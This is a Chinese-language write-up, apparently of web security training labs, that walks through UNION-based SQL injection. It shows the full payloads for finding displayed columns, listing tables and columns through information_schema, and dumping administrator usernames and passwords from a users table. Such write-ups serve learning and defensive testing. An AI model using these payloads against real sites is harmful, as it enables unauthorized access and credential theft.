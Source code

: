 ![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758095198931-4c542067-e37d-420a-b068-3866787bc714.png)

## <font style="color:rgb(0, 19, 80);">SQL injection UNION attack, finding a column containing text</font>
本题描述要求是查找哪些列会被回显。首先还是用上一题要求的方法探测列数，发现有3列。探测哪一列会被回显，以前惯用做法是通过`union select '111','222','333'--+`，但是本题的标准做法依然是用`union select 'abcdef',null,null--+`，依次替换这段随机字符的位置（本题给定的随机字符是`<font style="color:rgb(51, 51, 50);">'n1dMaf'</font>`）：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758095838647-a8c6bc07-3aa3-4cb3-bb03-540ece00d082.png)

## <font style="color:rgb(0, 19, 80);">SQL injection UNION attack, retrieving data from other tables</font>
本题跟前面有点题思路类似，即找到一个叫`users`的表，有两个字段`username`和`password`，要获取所有信息并以administrator登录。

通过`order by`探测列数有2列，且都被回显，根据回显的注入方式推测数据库是PostgreSQL。那么接下来思路就跟第五题一样了。

构造`?category=Accessories' union select current_database(),current_schema()--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758096297878-05ce07ba-eb91-4eae-8a3f-35f95559b5c0.png)

数据都一样，库名是`academy_labs`，schema是`public`。构造`?category=Accessories' union select table_name, null from information_schema.tables where table_schema='public' and table_catalog='academy_labs'--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758096380986-5cde47cc-56f3-4842-b948-bc2dffa294f2.png)

有`products`和`users`表，我们需要的是后者。构造`?category=Accessories' union select column_name, null from information_schema.columns where table_schema='public' and table_catalog='academy_labs' and table_name='users'--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758096464863-1cefd132-ece7-4834-9e1d-f842b9672917.png)

继续注出`username`和`password`这两个字段的数据。构造`?category=Accessories' union select username, password from public.users--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758096547384-dce8afd8-6c22-4844-a3fe-23d15b249c49.png)

拿administrator的账号密码去登录：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758096589635-4a3ce35a-cf64-4bcf-bec6-45d723482a47.png)

成功。

> 做到这才发现自己犯傻了，明明题干已经给出了表名和字段名。。。只需要构造最后一步即可。
>

## <font style="color:rgb(0, 19, 80);">SQL injection UNION attack, retrieving multiple values in a single column</font>
本题描述跟上题一模一样，`order by`探测到列数是2列，只有第2列会被回显，根据回显的注入方式推测数据库是PostgreSQL。直接构造`?category=Gifts' union select null, concat(username,':',password) from public.users--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758097552570-cd2bb6af-8b3c-4ac0-a633-0e7d346f5b54.png)
